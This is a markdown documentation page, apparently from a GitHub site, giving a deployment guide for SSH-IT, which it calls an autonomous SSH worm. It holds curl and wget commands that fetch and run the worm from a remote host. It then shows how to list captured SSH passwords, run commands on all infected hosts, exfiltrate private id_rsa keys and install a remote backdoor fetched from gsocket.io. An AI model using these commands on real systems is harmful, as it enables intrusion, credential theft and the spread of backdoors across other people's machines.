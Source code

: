 ```yaml
---
layout: default
title: SSH-IT / Deployment
description: Autonomous SSH worm deployment guide.
---
```


Use either one of these commands to deploy:

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

or:

```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:

```shell
~/.config/prng/thc_cli -r list
```

{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}

To uninstall use:

```shell
~/.config/prng/thc_cli -r uninstall
```

## Environment variables:

Deployment can be controlled with these environment variables

| :--- | :--- |
| `THC_DEPTH=` | SSH-IT will spread to this depth and then stop. The default is `THC_DEPTH=2`. |
| `THC_BASEDIR=` | Installation directory. Default is `THC_BASEDIR="${HOME}/.config/prng"`. |
| `THC_VERBOSE=1` | For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red). |
| `THC_DEBUG=1` | For testing only: Display debug information |
| `THC_DEBUG_LOG=thc.log` | For testing only: Output (most) debug information to `thc.log`. |

Example:

```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

## Tips & Tricks

SSH-IT is controlled with `thc_cli`.

```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

### Remote Command Execution

Executing a command on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (`id_rsa`) from _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):

```shell
# Without HTTPS
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

### Help the team

Help us fix bugs and send us `thc.log` if a boo-boo happens:

```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

## Contact

{% include contact-details.md %}
